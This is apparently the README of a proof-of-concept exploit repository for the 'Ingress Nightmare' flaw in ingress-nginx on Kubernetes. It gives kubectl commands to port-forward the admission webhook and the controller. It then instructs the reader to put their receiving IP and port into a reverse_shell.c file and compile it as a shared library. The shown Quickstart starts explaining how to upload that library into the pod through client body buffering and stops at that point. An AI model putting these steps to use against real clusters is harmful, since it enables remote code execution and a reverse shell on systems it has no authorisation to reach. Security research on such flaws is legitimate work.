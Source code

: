 1. **Verify that the ingress-nginx services were created properly:**
    ```bash
    kubectl get svc -n ingress-nginx
    # Example output:
    #
    # NAME                                 TYPE           CLUSTER-IP       EXTERNAL-IP   PORT(S)                                      AGE
    # ingress-nginx-controller             LoadBalancer   10.108.69.79     <pending>     80:32621/TCP,443:31942/TCP,10254:31803/TCP   5d2h
    # ingress-nginx-controller-admission   ClusterIP      10.101.210.210   <none>        443/TCP
    ```

1. **Port-forward the admission webhook and ingress-nginx controller to your local machine** (using separate terminals):
    - Admission webhook:
      ```bash
      kubectl port-forward svc/ingress-nginx-controller-admission -n ingress-nginx 8443:443
      ```
    - Ingress-nginx controller:
      ```bash
      kubectl port-forward svc/ingress-nginx-controller -n ingress-nginx 8080:80
      ```

1. **Compile the [shared libraries](./shared-library/README.md).**  
   Make sure to replace the `YOUR_IP_ADDRESS_HERE` and `YOUR_PORT_HERE` placeholders in the [`reverse_shell.c`](./shared-library/reverse_shell.c) file with the IP address and port of the system that will receive the reverse shell.
    ```bash
    make shared-libraries
    ```

---

## Quickstart

You can exploit Ingress Nightmare in two steps.

### Step 1

In this step, you upload the shared library into the ingress-nginx pod file system by triggering [client body buffering](https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size) on the controller.
